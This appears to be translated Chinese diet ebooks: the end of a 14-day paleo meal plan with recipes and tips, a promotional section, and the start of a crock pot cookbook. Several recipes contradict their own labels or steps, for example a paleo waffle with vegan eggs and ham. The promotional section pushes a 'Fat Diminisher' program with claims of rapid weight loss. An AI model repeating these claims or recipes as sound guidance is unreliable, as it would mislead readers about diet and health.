- 加餐：一份水果或一杯酸奶
- 晚餐：火鸡油桃汉堡

## 第十二天

- 早餐：樱桃藜麦粥
- 加餐：苹果香蕉姜味松饼
- 午餐：香菜菠菜冰沙
- 加餐：一份水果或一杯酸奶
- 晚餐：蒸三文鱼配西葫芦

## 第十三天

- 早餐：橙子柠檬冰沙
- 加餐：苹果脆片
- 午餐：意面博洛蒂豆汤
- 加餐：一份水果或一杯酸奶
- 晚餐：牛肉面

## 第十四天

- 早餐：香蕉混合坚果果干
- 加餐：椰子香蕉巧克力冰沙
- 午餐：梨和柿子沙拉
- 加餐：一份水果或一杯酸奶
- 晚餐：烤土豆配沙拉

## 第4章：原始饮食早餐食谱

每天早晨享用美味又营养的早餐。如果你早上时间有点紧，前一晚准备好早餐会大有帮助。

### 红薯华夫饼

份量：2人份

配料：

- 4汤匙玉米淀粉
- 4汤匙红薯泥
- 6汤匙小麦糕点粉
- 半茶匙盐
- 4汤匙纯素酪乳
- 2汤匙红糖
- 四分之一茶匙肉豆蔻
- 2茶匙泡打粉
- 2个纯素鸡蛋
- 4汤匙纯素黄油（融化）
- 118克火腿

做法：

打开华夫饼机并预热。搅打玉米淀粉，加入泡打粉、盐、肉豆蔻，搅拌均匀。将酪乳倒入另一个碗中，加入黄油、红薯泥和鸡蛋，搅打均匀。

将面粉混合物加入红薯混合物中搅拌。加入火腿，再搅拌一次。给华夫饼机喷些油，舀约80毫升混合物到机器中。煮至华夫饼呈金黄色，即可食用。

### 香蕉草莓冰沙

份量：1人份

配料：

- 1根香蕉
- 1杯豆奶或杏仁奶
- 一把草莓
- 1汤匙枫糖浆
- 一小撮肉桂

做法：

将所有配料放入榨汁机或搅拌机，搅打至顺滑。倒入杯中即可。

### 橙子柠檬冰沙

份量：1人份

配料：

- 1汤匙柠檬汁
- 1个橙子
- 半个葡萄柚
- 1汤匙蜂蜜
- 4汤匙豆乳酸奶
- 240毫升豆奶

做法：

将所有配料放入搅拌机或榨汁机，搅打至顺滑。倒入杯中即可。

### 蔬菜豆腐炒

份量：3人份

配料：

- 一包豆腐（最好是老豆腐）
- 3把菠菜叶
- 1个切成四瓣的番茄
- 3瓣大蒜
- 半个红洋葱
- 半个甜椒（任意颜色）
- 一小撮盐

做法：

使用料理机，加入菠菜、洋葱、大蒜和甜椒，脉冲搅打至细碎。取煎锅，加入混合物，用中高火烹制。混合物开始微沸后，加入盐和豆腐，然后搅拌。煮至几乎无液体残留，即可食用。

### 樱桃藜麦粥

份量：2人份

配料：

- 2汤匙藜麦
- 240毫升水
- 半茶匙香草精
- 1汤匙蜂蜜
- 四分之一茶匙肉桂
- 一把无糖樱桃

做法：

将除蜂蜜外的所有配料放入锅中，中高火加热。煮沸后转小火，炖约15分钟，或至水分收干。此时藜麦应已变软。淋上蜂蜜，即可食用。

### 混合坚果果干

份量：1人份

配料：

- 一把无糖混合坚果果干
- 1根香蕉
- 半杯豆奶、杏仁奶或椰奶（可选）

做法：

将香蕉切成小块，加入混合坚果果干中，拌匀。

加入豆奶、杏仁奶或椰奶，再搅拌一次。即可食用。

### 一份或两份水果

一份水果可以是非常健康的早餐，尤其如果你通常不在一天中的这个时间吃东西。尽量选择一份或两份你喜欢的水果，并且选择当天之后不会再吃的水果。这是为了确保你的身体能从多种水果中获得尽可能多的营养。

## 第5章：午餐食谱

这些午餐食谱可以装盒带到工作地点，也可以在家享用。剩余食物请在接下来几天内吃完，以便享用到最新鲜的状态。

### 鲭鱼沙拉

份量：2人份

配料：

- 3盎司未熏制的新鲜鲭鱼
- 60毫升纯素蛋黄酱
- 半瓣蒜（切末）
- 半汤匙切碎的欧芹
- 半茶匙柠檬汁
- 半根切碎的芹菜
- 半个切碎的洋葱

做法：

将除鲭鱼外的所有配料放入碗中，搅拌均匀。用叉子将鲭鱼拨散成片。将鲭鱼加入沙拉中，拌匀即可。

### 烤鸡肉卷

份量：3人份

配料：

- 3汤匙纯素蛋黄酱
- 四分之一茶匙盐
- 半汤匙醋
- 半茶匙黑胡椒
- 半只烤鸡
- 2把紫甘蓝，切丝
- 一小撮卡宴辣椒粉
- 1汤匙腌菜汁
- 3张有机全麦扁面包

做法：

将黑胡椒、腌菜汁和蛋黄酱放入碗中。在另一个碗中加入盐、紫甘蓝和卡宴辣椒粉，拌匀。

将鸡肉切成一口大小的块，加入蛋黄酱中搅拌。将蛋黄酱混合物和紫甘蓝混合物分别舀到扁面包上，卷起即可。

### 辣椒芹菜沙拉

份量：3人份

配料：

- 少许辣椒碎
- 4根切碎的芹菜
- 1汤匙柠檬汁
- 1汤匙柠檬皮屑
- 2颗椰枣（浸泡去核）
- 1汤匙芝麻酱
- 5克切碎的欧芹
- 一小撮盐
- 10颗烤杏仁
- 新鲜薄荷适量

做法：

将椰枣及其浸泡液放入搅拌机。加入辣椒碎、盐、柠檬汁和芝麻酱，搅打。混合物顺滑后倒入碗中，加入芹菜、柠檬皮屑、欧芹、杏仁和盐，拌匀即可。

### 意面博洛蒂豆汤

份量：3人份

配料：

- 140克博洛蒂豆（浸泡并沥干）
- 半个中等大小洋葱（切碎）
- 1瓣蒜（切末）
- 半根芹菜（切片）
- 3个切碎的番茄
- 半汤匙橄榄油
- 半根胡萝卜（切片）
- 半把羽衣甘蓝（切片）
- 125克通心粉
- 调味料

做法：

将豆子放入大锅中，加水至约高出豆子2英寸。煮沸后撇去表面浮沫。转小火，加盖炖约40分钟，或至豆子软嫩。

另起一锅，加入芹菜、胡萝卜、洋葱和大蒜，煮至软嫩（约8-10分钟）。将豆子沥干，加入此锅，同时加入番茄、盐和约480毫升水。煮沸，加入意面，煮至达到你偏好的程度。


稠度。加入羽衣甘蓝，小火慢煮5分钟，然后上桌。

### 扁豆和鹰嘴豆汤

份量：4人

配料：

- 1个洋葱，切碎
- 1茶匙磨碎的生姜
- 1茶匙姜黄
- 四分之一茶匙辣椒粉
- 半茶匙孜然粉
- 一把切碎的胡萝卜
- 一把切碎的芹菜
- 1茶匙切碎的大蒜
- 1罐沥干并冲洗的鹰嘴豆
- 2个切碎的西红柿
- 38克扁豆
- 720毫升蔬菜高汤

方法：

将洋葱在中高火上大锅中煸炒。现在加入芹菜和胡萝卜，再煮5分钟。加入大蒜和除高汤外的剩余配料，煮30-40秒。现在加入肉汤，煮大约1个半小时，或直到扁豆变软。上桌。

### 芫荽和菠菜奶昔

份量：1人

配料：

- 2枝芫荽
- 114克菠菜
- 半个红甜椒
- 1个西红柿，最好是大个的，切碎
- 半根芹菜茎，切碎
- 一点点青柠汁
- 半根胡萝卜，切碎
- 四分之一小洋葱，切碎

方法：

将所有配料加入榨汁机或搅拌机中，搅拌至顺滑。上桌。

### 梨和柿子沙拉

份量：2人

配料：

- 1个柿子，切片
- 1个梨，切片
- 1茶匙芥末
- 3汤匙橄榄油
- 1个切碎的沙葱
- 2汤匙柠檬汁
- 1茶匙大蒜，切碎
- 375克菠菜
- 62克山核桃

方法：

将芥末、柠檬汁、油、沙葱和大蒜放入碗中混合。现在加入柿子、梨、菠菜和山核桃，拌匀。上桌。

## 第6章：晚餐食谱

以下晚餐食谱应该让你在一天结束时感到相当满足。

### 烤肉鸡

份量：2人

配料：

- 1块去骨鸡胸肉
- 2块去骨鸡腿肉
- 四分之一茶匙大蒜
- 四分之三汤匙甜椒粉
- 一点点辣椒粉
- 150克烧烤酱

方法：

去皮鸡肉并切成薄条。将甜椒粉、大蒜、盐和辣椒粉放入碗中搅拌。现在将混合物抹在鸡肉上，烤2分钟以封住。

将鸡肉在平底锅中烹煮至几乎熟透（约10分钟），然后再次置于烤架下。将鸡肉涂上烧烤酱，再煮多一分钟，上桌。

### 豆子和番茄辣椒

份量：3人

配料：

- 1罐黑豆
- 1罐切碎的西红柿
- 半罐 Pinto 豆
- 1个红洋葱，切碎
- 1根芹菜茎，切碎
- 半个甜椒，切碎
- 2瓣大蒜，切碎
- 1汤匙橄榄油
- 1汤匙香菜
- 1汤匙辣椒粉
- 1茶匙孜然
- 半茶匙牛至
- 2撮盐
- 1茶匙青柠汁
- 四分之三茶匙甜椒粉
- 半片月桂叶
- 240毫升水

方法：

使用荷兰锅，将橄榄油倒入底部加热。加入洋葱、胡萝卜、芹菜、1撮盐和甜椒。搅拌。煮5分钟。

加入甜椒粉、大蒜、辣椒粉、牛至和孜然，搅拌1分钟。加入 Pinto 豆、黑豆、西红柿、月桂叶和水，搅拌。煮至微沸并偶尔搅拌。煮15分钟，然后加入香菜再搅拌一次。撒入剩余的盐，搅拌后上桌。

### 火鸡和油桃汉堡

制作量：6-8个

配料：

- 500克碎火鸡肉
- 1个洋葱，切碎
- 1汤匙香菜籽
- 2个油桃，切碎
- 28克切碎的太阳晒干番茄
- 一把切碎的香菜
- 2汤匙盐和胡椒

方法：

将洋葱炒至变软。将所有配料放入大碗中彻底搅拌。用手做成肉饼，塑造成你喜欢的大小，然后放入冰箱冷藏几个小时定型。

肉饼定型后，用一点油烤，每面约5分钟，或直到煮熟。上桌。

### 蒸西葫芦三文鱼

份量：2人

配料：

- 2块三文鱼菲力
- 1小根西葫芦，切片
- 半个切片柠檬
- 半个切片洋葱
- 60毫升水
- 120毫升白葡萄酒
- 半茶匙盐
- 一撮现磨胡椒

方法：

取一个荷兰锅，将洋葱、西葫芦、柠檬、水和白葡萄酒放入底部。现在给三文鱼调味。将蒸架放在荷兰锅中的配料上。中高火煮至液体开始沸腾。降低火力，然后将三文鱼放在蒸架上并盖上盖子。蒸约8分钟，或直到三文鱼煮熟。上桌。

### 牛肉面

份量：3人

配料：

- 250克碎牛肉
- 半包面条
- 半个青椒，切碎
- 2个西红柿，切碎
- 1个洋葱，切碎
- 100克刨丝奶酪
- 175克玉米
- 一把蘑菇
- 盐和胡椒调味

方法：

将牛肉放入荷兰锅中，低火烹煮。煮8-10分钟，或直到牛肉煮至你喜欢的熟度。加入甜椒、蘑菇、玉米、洋葱和调味料，搅拌。

将面条放在配料上，并在面条上撒上刨丝奶酪。取西红柿放在奶酪上，盖上锅盖。中高火煮约1小时。上桌。

### 烤土豆配沙拉

份量：1人

配料：

- 1个土豆
- 1个西红柿，切碎
- 一把生菜叶
- 四分之一根黄瓜，切片
- 1个西红柿，切碎
- 一点点橄榄油
- 调味料

方法：

将土豆在烤箱中烤约1小时，或直到煮熟。取出并放在一旁。将沙拉放在盘子上并调味。撒上橄榄油。将土豆放在沙拉旁边，上桌。

## 第7章：原始人饮食零食

谁说你在原始人饮食计划中不能享受一些非常美味的零食？如果感到饥饿，不妨享用这些美味的零食。

### 苹果、香蕉和生姜松饼

制作量：12个

配料：

- 200克通用面粉
- 1汤匙泡打粉
- 1汤匙苹果醋
- 1茶匙磨碎的生姜
- 1茶匙肉桂粉
- 半茶匙盐
- 175克苹果，切片
- 150克糖
- 180毫升牛奶
- 150克捣碎的香蕉
- 140克结晶生姜

方法：

将烤箱预热至华氏400度，并将松饼盘放在一旁。将面粉、糖、泡打粉、盐、生姜和肉桂粉搅拌均匀并放在一旁。在大碗中加入牛奶、香蕉、苹果醋和生姜，搅拌。加入面粉混合物，搅拌至配料刚好混合在一起。

放入烤箱烘烤15分钟，或直到烤好。上桌享用。

### 苹果片

份量：2人

配料：

- 4个苹果，切片
- 一点点南瓜香料
- 一点点肉桂

方法：

将苹果片放在烤盘上，并撒上肉桂。放入烤箱在华氏230度下煮1小时。将苹果片翻面，并在另一面撒上肉桂，在华氏200度下煮1小时。

现在关掉烤箱，将苹果留在里面1到2小时直到变脆。从烤箱中取出苹果，撒上南瓜香料并上桌。

### 椰子、香蕉和巧克力奶昔

份量：1人

配料：

- 1茶匙椰丝
- 240毫升椰子水
- 1茶匙可可粉
- 一把菠菜
- 1根香蕉

方法：

将所有配料放入榨汁机或搅拌机中，搅拌至全部混合在一起。倒入玻璃杯中上桌。


## 水果沙拉

份量：2人份

### 配料：
- 1根香蕉
- 1个苹果
- 4颗草莓
- 四分之一个甜瓜，切片
- 120毫升鲜榨橙汁

### 做法：
将所有水果放入碗中，混合均匀。倒入鲜榨橙汁，再次搅拌。即可食用。

## 燕麦葡萄干饼干

可做20块

### 配料：
- 90克燕麦
- 300克葡萄干
- 125克花生酱替代品
- 1茶匙香草调味料
- 1茶匙泡打粉
- 1茶匙肉桂粉
- 四分之一茶匙盐
- 四分之一茶匙肉豆蔻粉
- 60毫升水

### 做法：
将烤箱设定为350华氏度，将60克燕麦放入食品加工机，搅打至细碎。将肉豆蔻粉、肉桂粉、燕麦碎、泡打粉和盐加入碗中，搅拌均匀。

将150克葡萄干和60毫升水放入食品加工机，搅打成泥。加入花生酱和香草，搅打成泥。现在加入剩余的葡萄干和燕麦，倒入燕麦混合物中，搅拌均匀。

用茶匙舀取一些混合物，放在饼干烤盘上。饼干之间相隔1英寸，用勺背压扁。烘烤约12分钟，或直到饼干呈金黄色。然后将其转移到冷却架上，待冷却后即可食用。

## 第8章：提示与技巧

你可能会喜欢一些提示和技巧，让你执行原始饮食计划的过程稍微轻松一些。这些提示将帮助你减重、理解减重过程，并告诉你如果想再次执行该计划应该怎么做。

### 水

水是原始饮食计划不可或缺的一部分，对任何饮食而言也是如此。水不仅能让你保持水分充足，还能帮助加快减重。这是因为它能让你有饱腹感；尽管如此，你还是要确保不要喝太多水，因为过量饮水可能对你有害。尽量坚持每天喝8杯水，并用它来保持水分。

### 运动

14天原始饮食计划不仅会帮助你吃得更健康，也必然会带来一些体重下降。如果你打算在执行该计划期间运动，请确保坚持你日常的运动方案。

你可能会发现，在全新的饮食计划之外再增加额外运动太难了。我的建议是每次只尝试一件新事物。先习惯原始饮食（如果你打算长期坚持），然后再增加更多运动。

### 你的减重

你通过该计划实现的任何减重，很可能是因为你现在摄入更少的盐、糖和脂肪。这些通常隐藏在加工食品中；由于你摄入更少（甚至完全不摄入），所以你很可能会减重。

当你开始减重时，起初可能会减掉很多，这取决于你平时吃什么。如果你长期坚持该计划，每周减掉的体重会减少。这完全正常，绝对无需担心。

如果你并不想通过原始饮食计划减重，而只是想享受健康饮食，那么你仍可能减掉一点体重。并非每个人都想减重；有些人更愿意首先吃健康均衡的饮食，而把减重视为次要目标。

### 如果你想再次执行该计划

一旦你完成了14天原始饮食计划，你无疑会感觉更好、看起来也更好。你很可能已经减掉了一些体重，而且可能更有精力，睡眠大概也更好。

原始饮食计划的一大优点是，它完全适合长期坚持。因为它是一种非常健康的饮食，你的身体会喜欢，而且你不会缺少任何营养。

我的建议是享受执行原始饮食计划的过程，但别忘了偶尔犒劳自己。犒劳自己会让你感觉得到了奖励，同时也能避免你感到厌倦。

## 结语

再次感谢你下载本书！

我希望本书能帮助你了解原始饮食计划有多棒，以及它如何帮助你改善健康和身心状态。

下一步是采购你需要的食材，准备享用一些非常美味且营养丰富的餐食。

最后，如果你喜欢本书，我想请你帮个忙：你能否在亚马逊上为本书留下评价？不胜感激！

点击此处，在亚马逊上为本书留下评价！

谢谢，祝你好运！

## 额外福利：获取我提供的更多免费视频和书籍！

感谢阅读我的书！希望你能从中获得极大的价值。我想通过赠送更多免费视频、书籍和健康相关信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮箱地址！

如果你真心想改变饮食和健康，你将获得的一切都会对你有用。我将提供：

- 我写的更多书
- 制作特色菜肴的视频
- 我最喜欢的健康相关产品信息
- 以及更多内容！

点击此处获取所有这些信息！

嘿，希望你喜欢我的书。我想给你更多价值，所以想赠送一些免费内容，以及介绍我最近尝试的一种饮食法，它帮助我减掉了顽固的多余脂肪。

这个项目给了我一套策略，我用它减掉了不想要的顽固脂肪，并感觉自己年轻了10岁！

这个项目叫做 The Fat Diminisher。这种饮食法在帮助人们实现减重目标方面取得了巨大成功。这个项目不仅能帮助你减掉多余的脂肪，还会教你如何永久保持下去！

在短时间内减重一直被认为几乎是不可能完成的任务。多年来，医生和营养师一直告诉公众，要想在减重方面看到任何进展，或塑造完美身材，需要付出数月甚至数年的艰苦努力。但这根本不是真的。

人体具有高度适应性，能够在极短的时间内发生变化。想一想。如果人们能因几周不健康饮食而迅速增加大量脂肪，那么他们不也能因几周健康饮食而迅速减掉大量体重吗？嗯，他们绝对可以。

但是，要快速减重，你需要吃什么？从低碳水、低脂、无糖、高蛋白，甚至“穴居人”饮食法——可选方案如此之多，以至于普通人会非常困惑，不知道该用哪种饮食法来快速减重。其中一些饮食法甚至对应该吃什么、不该吃什么提供了相互矛盾的信息。好吧，这一切即将改变。

***[立即查看视频！](#)***

如果你还没有看过，一定要去看看我的新网站 *KindleBookSpot.com*。这是我一直在做的一个新项目，我真心希望它对读者有价值。我建立这个网站，是因为我想让你们更轻松地在一个地方找到最热门的折扣 Kindle 图书。以下是我的网站提供的一些内容：

- 畅销免费 Kindle 图书列表
- 折扣虚构类和非虚构类图书
- 每周一书
- 精选图书
- 在我的网站上推广你自己的书

这个网站不仅面向读者，也是新锐作者在作品成为畅销书之前推广新书的地方。所以，如果你想推广自己的书，请访问我的网站 *KindleBookSpot.com*。

我希望这个网站对你有用，也希望能在这里见到你！

*订阅 KindleBookSpot 不断壮大的社区，以便在最佳图书打折和免费时收到通知。*

# 14天慢炖锅计划


## 目录

- 引言
- 第1章：慢炖锅概述
- 第2章 – 慢炖锅鸡肉食谱
- 第3章 – 慢炖锅猪肉食谱
- 第4章 – 慢炖锅牛肉食谱
- 第5章 – 慢炖锅海鲜食谱
- 第6章 – 慢炖锅蔬菜食谱
- 第7章 – 慢炖锅甜点食谱
- 结论

## 引言

如今时间流逝得如此之快，生活比以前更忙碌。总是会有想要做更多事的感觉，但由于时间不足而无法做到。这适用于日常活动和爱好，包括烹饪。

烹饪是现代人倾向于放弃的事情——外卖和送餐披萨似乎是更受欢迎的选择，同时还有微波食品包、方便面以及所有可以自动食用的食品。问题是，这些东西并不真正健康，会损害你的健康。

然而，传统餐点需要很长时间烹饪，并且需要付出很大努力。例如，一道牛肉菜肴平均需要2小时准备。好吧，你可能负担不起只为做晚餐花费这么多时间。好消息是，现在你可以在休息甚至睡觉时烹饪美味健康的餐点——多亏了慢炖锅！

本书包含有关如何准备快速、健康和美味的慢炖锅餐点的经过验证的步骤和策略。每章都包含易于遵循的食谱，使用你喜欢的食材，如鸡肉、意大利面、猪肉、牛肉和蔬菜等。本书介绍的所有菜肴都很健康，因为当今人们希望保持平衡的生活方式。

食谱附带逐步说明和易于获取的食材，使烹饪变得简单有趣，使慢炖锅烹饪成为一个更具吸引力的过程。还将提供有关如何保留更多风味并使食物更美味的额外小贴士。

这是一本慢炖锅食谱书，肯定会改变你与家人一起烹饪和用餐的方式。现在，你只需把要煮的东西倒进去，然后做你想做的事，而不用担心时间。

感谢你并祝贺你下载了本书，“*14天慢炖锅计划：快速简易慢炖晚餐*”。

希望你喜欢！

## 开始之前 … 奖励：通过我获得更多免费视频和书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。为了感谢你，我想赠送你更多与健康相关的免费视频、书籍和信息！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

你将获得的一切，如果你认真对待改变饮食和健康，都会对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

**底部有更多信息。**

## 第1章：慢炖锅概述

你可能想知道这些慢炖锅食谱都是关于什么的。基本上，“crock pot”一词指的是用于烹饪——更具体地说，是用于慢炖的电气设备的通用品牌或商标。它由三个部分组成：加热装置、玻璃盖和锅体本身。

使用这种烹饪设备，即使在休息时也能轻松烹饪美味佳肴。你只需等待，然后品尝慢煮餐点的美味。

慢炖锅是制作炖菜、汤和工作日晚餐的绝佳选择。你可能不会相信，它还能制作新鲜面包。这种烹饪工具利用湿热缓慢烹饪食物，使其可以在无人看管的情况下烹饪数小时。有了它，你可以烹饪与在普通平底锅或锅中通常烹饪的相同类型的食物。

那么，慢炖锅是如何烹饪你的食物的呢？

一般来说，慢炖锅由位于锅底部和侧面的加热元件组成。它释放出湿热，在低温下烹饪食物，或在华氏170至260度的范围内。

由于紧闭的盖子以及直接加热而在容器中产生的蒸汽会杀死细菌，使烹饪非常有效。慢炖锅以能够使肉变嫩而著称。

所以无论你想做一些焖烤肉、鸡肉菜肴还是汤，那么在以下章节中介绍的慢炖锅食谱肯定适合你。

与快餐和即食晚餐说再见！你可以在这么短的时间内做更多事情。只要看看这些精彩的慢炖锅食谱，让你的餐点比以往任何时候都更愉快和令人满意！

## 第 2 章 – 慢炖锅鸡肉食谱

鸡肉瘦且是蛋白质的极佳来源。以下是一些值得在家尝试的出色慢炖锅食谱，尤其是在忙碌的工作日：

### 食谱1：甜蒜鸡

这是一个简单的食谱，可以使用你的常用 pantry 食材烹饪。它最适合搭配烤蔬菜或糙米。

你需要：

- 4块去皮鸡腿肉
- 5汤匙蜂蜜
- 半杯番茄酱
- 半杯酱油
- 4瓣切碎的大蒜
- ½勺干罗勒叶

做法：

- 将除鸡肉外的所有原料混合，制成腌料。
- 将鸡块放入慢炖锅，然后倒入混合物。确保肉被充分裹住。
- 烹饪6到7小时。享用！

小贴士：你也可以用锡纸包裹鸡块，以便更均匀地烹饪，肉质更饱满多汁。此外，清理也更少。

### 食谱2：蘑菇奶油鸡意面

这道菜极其容易制作，但味道却像大师厨的作品一样——细腻顺滑。

你需要：

- 4块去皮鸡胸肉（去骨）
- 240克切片香菇
- 240克切片白蘑菇
- 半杯白葡萄酒
- 240克奶油奶酪
- 300克或一罐蘑菇奶油汤
- 1/3杯黄油
- 250克天使发面条
- 切碎的洋葱韭菜

做法：

- 煮水，按包装说明煮面条。备用。
- 在中火上用油将鸡肉煎一下（可选）。
- 将蘑菇奶油汤、白葡萄酒、黄油、奶油奶酪放入烹饪器中，然后将鸡肉放在上面。
- 在低温下烹饪5小时。
- 出锅时撒上新鲜洋葱韭菜。与煮好的面条一起食用。享用！

### 食谱3：开胃柑橘鸡

这是一道多汁美味的菜肴，你肯定会想再吃一次。它最适合与糙米或意大利面一起食用。你甚至可以单独食用。

你需要：

- 1公斤鸡胸肉
- ¼杯柠檬汁
- 1/3杯水
- 3瓣切碎的大蒜
- ¼杯黄油
- 1茶匙切碎的新鲜欧芹
- 1茶匙鸡肉调味料
- 一撮干牛至粉
- 一撮盐和胡椒

做法：

- 将盐、胡椒和干牛至粉放入碗中混合。然后直接抹在鸡肉上。
- 在平底锅中融化黄油，然后将鸡肉煎3到4分钟。
- 将鸡肉放入慢炖锅，然后加入水、鸡肉调味料和柠檬汁。
- 在低温下烹饪6小时或高温下烹饪3小时。烹饪完成后加入欧芹。享用！

### 食谱4：慢炖锅鸡肉烧烤

通过在慢炖锅中慢煮，给你平常的鸡肉烧烤带来独特的转变。
它最适合搭配全麦面包、炸/烤土豆食用。

你需要：

- 去皮冷冻鸡胸肉
- 1/2杯红糖
- ½杯酸奶
- 350毫升烧烤酱
- 30毫升伍斯特酱

做法：

- 将冷冻鸡胸肉放入慢炖锅中。
- 将剩余原料放入碗中。充分混合，然后倒在鸡肉上。
- 在低温下烹饪6到7小时或在高温下烹饪3到4小时。

小贴士：用铝箔衬在烹饪锅中，以便更高效地烹饪并轻松清洁。


### 食谱 5：土豆豆子鸡肉炖

在本食谱中，你将使用红薯，比普通土豆更健康。花生酱也是调和辣味的配料之一。

所需材料：
- 240克去皮去骨鸡胸肉
- 4块切块红薯
- 2罐无盐红豆
- 2杯切块青椒
- 1杯切块西红柿
- 半杯切碎青辣椒
- 500毫升低盐鸡汤
- 1勺卡宴粉
- 2勺花生酱
- 3瓣切碎大蒜

做法：
- 将土豆、豆子、甜椒、西红柿、辣椒、卡宴粉、鸡汤和大蒜放入炖锅中。
- 加入鸡肉块，确保所有食材都被裹住。
- 高火煮6小时，低火可煮至10小时。
- 煮好后加入花生酱充分搅拌。享用吧！

## 第 3 章 – 慢炖锅猪肉食谱

猪肉绝对是餐桌上的美味佳肴。以下是一些以此食材为主的有趣慢炖锅食谱：

### 食谱 1：嫩滑照烧猪肉

这是一款以猪肉为主、配以辣椒的照烧变体，全家人一定会喜欢。

所需材料：
- 1公斤猪里脊
- 3个切碎红辣椒
- 1个小洋葱，切碎
- 半杯照烧酱
- 1/3杯红糖
- 5瓣切碎大蒜
- 1杯鸡汤
- 2勺橄榄油
- 一撮黑胡椒

做法：
- 在平底锅中加热油然后煎猪肉。确保各面都煎黄。
- 将鸡汤、红糖和照烧酱混合。加入洋葱、辣椒、黑胡椒和大蒜。
- 将猪肉放入炖锅，倒入酱汁裹住肉。
- 高火煮6至8小时，低火煮8至10小时。
- 切片前让肉静置5至10分钟。享用！

### 食谱 2：撕碎猪肉与辣椒

这是一款令人难以置信的猪肉食谱，类似于你在墨西哥餐馆会吃到的食物。

所需材料：
- 1公斤猪里脊，切块（约2英寸）
- 1杯切块青辣椒
- 4杯水
- 2杯米饭
- 半杯 chipotle 酱
- 3汤匙青柠汁
- 一把切碎香菜
- 4瓣切碎大蒜
- 一撮盐

做法：
- 用盐调味猪肉并放入慢炖锅。肉上放上大蒜和辣椒。
- 倒入半杯水和 chipotle 酱。
- 低火煮猪肉7小时。
- 在另一个锅中用剩余的水煮米饭，加入香菜和青柠汁。低火焖20至25分钟。
- 用2个叉子将煮好的猪肉撕碎。把猪肉放回慢炖锅让其吸收酱汁。盛在煮好的开胃米饭上享用！

### 食谱 3：水果猪肉烤肉

这是一款带有水果惊喜的类似美食的猪肉食谱。试着在家烹饪，享受这道多汁的肉类菜肴。

所需材料：
- 1公斤猪里脊
- 1罐蔓越莓酱
- 3瓣切碎大蒜
- 1/3杯蜂蜜
- 一撮肉豆蔻
- 1茶匙柠檬皮
- 一撮盐和胡椒

做法：
- 将猪里脊切成两半放入慢炖锅。撒上盐和胡椒调味。
- 将剩余食材混合并倒在肉上。
- 高火煮肉4至5小时。煮好后让肉静置10至15分钟。享用！

### 食谱 4：慢炖猪火腿汤

在忙碌的周中夜晚回家，享用这道香料十足的火腿蔬菜汤，搭配玉米松饼或米饭都很合适。

所需材料：
- 2杯切块猪火腿
- 1杯胡萝卜
- ½杯切碎洋葱
- 1½杯鹰嘴豆
- ½杯切碎芹菜梗
- ¼杯番茄酱
- 400毫升低盐鸡汤
- 一撮罗勒粉
- 一撮盐和胡椒
- 1片月桂叶

做法：
- 将胡萝卜、鹰嘴豆、芹菜、洋葱、猪火腿和大蒜混合。
- 用胡椒、罗勒和月桂叶调味所有食材。倒入鸡汤、番茄酱和水。
- 低火煮10至11小时。享用！

### 食谱 5：慢炖锅仔排

这是一款简单经典的猪肉食谱，你回家几分钟后就能享用。

所需材料：
- 750克仔排
- 500毫升烧烤酱
- 1个小洋葱，切碎
- 2瓣切碎大蒜
- 半杯水
- 1片月桂叶
- 一撮盐和胡椒

做法：
- 用盐和胡椒撒在肉上。
- 在慢炖锅中放入一些水和一半烧烤酱，然后放入排骨。上面放上大蒜、洋葱和月桂叶。
- 低火煮8小时，或高火煮4小时。
- 将烤箱预热至190摄氏度。
- 将排骨放入烤盘，并涂上剩余的烧烤酱
- 烤10至15分钟。搭配烤土豆或米饭食用。享用！

## 第 4 章 – 慢炖锅牛肉食谱

牛肉当然美味可口，但烹饪起来可能比较困难，因为需要更长时间。所以，这里有一些专为忙碌人士准备的慢炖锅牛肉食谱：

### 食谱 1：亚洲牛肉蘑菇

这是一款经典的牛肉蘑菇食谱，加入了亚洲风味的点缀。这是一道美味芳香的菜肴，值得一试。

所需材料：
- 1公斤牛腱或短肋
- 1杯红酒
- 1杯鸡汤/牛肉汤
- 250克白蘑菇
- 2勺酱油
- 3勺柠檬汁
- 2勺薄片姜
- 2至3片八角
- 1个橙子
- 2勺切碎青葱
- 1勺玉米淀粉
- 一撮盐和胡椒

做法：
- 将肉切成1英寸大小放入炖锅。
- 将橙皮、洋葱、姜、柠檬汁、汤、红酒、八角和酱油在锅中混合煮沸。倒在肉上煮6至8小时。
- 在平底锅中用¾杯液体酱汁煮蘑菇。边搅拌边让其蒸发。煮10至15分钟。
- 将蘑菇加入肉中。撒上一些青葱。享用！

### 食谱 2：牛肉青椒炒

这是一道风味十足的牛肉菜肴，最适合搭配面条或白米饭。试试看，你一定会爱上它。

所需材料：
- 500克牛西冷，切片2至3英寸厚
- 2个青甜椒，切块
- 450克西红柿，切块
- 1个小洋葱，切块
- 4汤匙酱油
- 1勺红糖
- 一撮盐
- 1勺玉米淀粉
- 2勺橄榄油

做法：
- 用盐调味肉。
- 加热平底锅，淋油并煎肉。将煎好的肉放入慢炖锅。
- 将酱油、糖、盐和用少量水溶解的玉米淀粉混合。倒在牛肉上。放入西红柿、洋葱和青甜椒。
- 低火煮6至8小时或高火煮4小时。享用！

### 食谱 3：孜然香辣撕碎牛肉

这是一道美味的菜肴，最适合搭配温暖的玉米饼或米饭。你也可以用奶酪或酸奶油一起食用以增加风味。

所需材料：
- 500克牛腱
- 1茶匙孜然粉
- 1个切碎洋葱
- 1个切块青甜椒
- 2/3杯番茄酱
- 3瓣切碎大蒜
- 1杯牛肉汤
- 1勺橄榄油

做法：
- 加热平底锅，将牛腱各面煎黄——每面约3分钟。
- 将牛肉放入锅中；倒入番茄酱、甜椒、孜然、洋葱和橄榄油。
- 确保所有食材混合均匀。低火煮10小时或高火煮4至5小时。
- 煮好后用叉子撕碎肉，用玉米饼或米饭食用。你也可以搭配酸奶油食用以增加风味。


### 食谱4：火辣牛肉辣椒

这是一道经典的人气菜肴，带有一丝烟熏味。可作为玉米片/塔可蘸酱食用，或搭配白米饭。

您需要：
- 500克牛肩肉，绞碎
- 250克肋眼牛排，切成小方块
- 1杯洋葱，切碎
- 1杯红芸豆
- 一罐烤番茄
- 240毫升番茄酱
- 8瓣大蒜，切末
- 一茶匙辣椒粉
- 1勺孜然粉
- 3杯低盐高汤
- 1勺橄榄油

制作方法：
- 加热平底锅，加油，将牛肉末煎至棕色，约5至6分钟。将煎好的肉放入慢炖锅。
